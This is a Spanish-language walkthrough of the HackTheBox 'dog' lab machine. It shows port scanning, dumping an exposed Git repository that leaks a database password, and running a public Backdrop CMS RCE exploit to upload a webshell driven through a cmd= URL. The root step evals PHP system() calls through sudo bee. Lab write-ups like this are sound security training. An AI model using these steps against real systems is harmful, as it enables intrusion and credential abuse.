 # Walkthrough - HTB "dog" Machine

Este walkthrough detalla el proceso completo para explotar la máquina "dog" de HackTheBox. Se describen los pasos que incluyen la verificación de que la máquina está activa, descarga del repositorio Git, obtención de credenciales para el CMS Backdrop, explotación de una vulnerabilidad RCE en Backdrop, obtención de un shell, escalada de privilegios vía SSH y sudo, y finalmente la obtención de ambas flags (user y root).

---

## 1. Comprobación de Disponibilidad y Enumeración Inicial

Primero, se hace *ping* para confirmar que la máquina está activa y verificar el sistema operativo.

```bash
ping 10.10.11.58
```
**Salida (fragmento):**

PING 10.10.11.58 (10.10.11.58) 56(84) bytes of data. 64 bytes from 10.10.11.58: icmp_seq=1 ttl=63 time=39.9 ms 64 bytes from 10.10.11.58: icmp_seq=2 ttl=63 time=51.0 ms ...

Luego se realiza un escaneo con Nmap para identificar los puertos abiertos:

```bash
nmap -p- --min-rate=1000 -vvv -Pn 10.10.11.58
```
**Salida (fragmento):**

PORT STATE SERVICE 22/tcp open ssh syn-ack 80/tcp open http syn-ack

La máquina tiene abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

---

## 2. Descarga del Repositorio Git

Se detecta que el directorio **.git** está accesible. Se procede a descargar el repositorio usando *git-dumper*. Primero se crea un entorno virtual, se instala la herramienta y luego se descarga:

```bash
python3 -m venv venv
source venv/bin/activate
pip install git-dumper
git-dumper http://10.10.11.58/.git/ ./dog_git_repo
```
Durante la descarga se encuentra, en el fichero de configuración **settings**, la siguiente cadena:

mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop


Esto indica que se usa la contraseña **BackDropJ2024DS2024** para la conexión a la base de datos del CMS Backdrop. Además, se localiza el correo de Tiffany en el repositorio, lo cual permite acceder al CMS.

---

## 3. Explotación del CMS y Vulnerabilidad RCE en Backdrop

Con las credenciales obtenidas (correo y la password de la BD) se accede al CMS Backdrop. Se investigan vulnerabilidades para Backdrop y se encuentra una RCE disponible en Exploit‑DB:  
[Exploit RCE - Exploit-DB 52021](https://www.exploit-db.com/exploits/52021).

Se descarga y se ejecuta el exploit:

```bash
python3 exploit.py 10.10.11.58
```
**Salida (fragmento):**

Backdrop CMS 1.27.1 - Remote Command Execution Exploit Evil module generating... Evil module generated! shell.zip Go to 10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation. Your shell address: 10.10.11.58/modules/shell/shell.php

Al darse cuenta de que la instalación no acepta archivos ZIP, se comprime el directorio que contiene el shell con:
  
```bash
tar -cvf shell.tar shell/
```
Con el archivo preparado se sube mediante la interfaz del CMS (en la sección de módulos, instalación manual) y se accede al webshell en:

http://dog.htb/modules/shell/shell.php?cmd=ls+%2Fhome


Esto permite ejecutar comandos; se visualizan los usuarios disponibles en `/home` y se accede por SSH usando la contraseña obtenida desde la BD.

---

## 4. Obtención de la User Flag

El acceso por SSH, usando las credenciales obtenidas (BackDropJ2024DS2024) facilita el ingreso al sistema. Además, se encuentra en la home un fichero llamado **myscript.php** con el contenido:

```bash
<?php system('id'); ?>
```
Aunque este script sirve para probar la ejecución de comandos, la flag de usuario se obtiene accediendo por SSH con las credenciales del CMS y explorando el sistema.

---

## 5. Escalada de Privilegios y Obtención de la Root Flag

Se consulta la posibilidad de escalar privilegios mediante sudo:

```bash
sudo -l
```
**Salida:**

Matching Defaults entries for johncusack on dog: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User johncusack may run the following commands on dog: (ALL : ALL) /usr/local/bin/bee

El usuario **johncusack** puede ejecutar sin contraseña el comando **/usr/local/bin/bee**, una utilidad para controlar Backdrop desde línea de comandos (ver [Bee en Backdrop CMS](https://backdropcms.org/project/bee)).

El comando `bee ev` permite evaluar código PHP. Se prueba lo siguiente para ejecutar comandos:
  
```bash
sudo /usr/local/bin/bee ev "system('ls')"
```
Se verifica además el contenido de `/root/`:
  
```bash
sudo /usr/local/bin/bee ev "system('ls /root/')"
``` 
Se observa la presencia de **root.txt**. Finalmente se lee la flag:

```bash
sudo /usr/local/bin/bee ev "system('cat /root/root.txt')"
``` 

Con esto se obtiene la **root flag**.

---

## 6. Conclusiones

Este walkthrough mostró los siguientes pasos:

1. **Comprobación y Enumeración Inicial:**  
   - Se verificó la disponibilidad con `ping` y se escanearon los puertos con Nmap (22 y 80).

2. **Descarga del Repositorio Git:**  
   - Se utilizó *git-dumper* para bajar el repositorio expuesto y se encontró la cadena de conexión a la BD del CMS Backdrop, permitiendo obtener acceso al sistema.

3. **Explotación del CMS y RCE en Backdrop:**  
   - Se ejecutó un exploit RCE (Exploit‑DB 52021) para generar un webshell, se preparó el archivo (comprimiéndolo), se subió y se obtuvo acceso mediante el shell.

4. **Obtención de la User Flag:**  
   - Se accedió al sistema via SSH con las credenciales obtenidas, y se encontró la primera flag.

5. **Escalada de Privilegios para Obtener la Root Flag:**  
   - Se ejecutó el comando `sudo /usr/local/bin/bee ev` para evaluar código PHP y ejecutar comandos que permitieron listar y leer el contenido de `/root/`, obteniendo la segunda flag.

**¡Enhorabuena! Has conseguido ambas flags.**

> **Advertencia:**  
> Este ejercicio se realizó en un entorno controlado (CTF). Utiliza estos conocimientos únicamente de forma ética y legal.

---
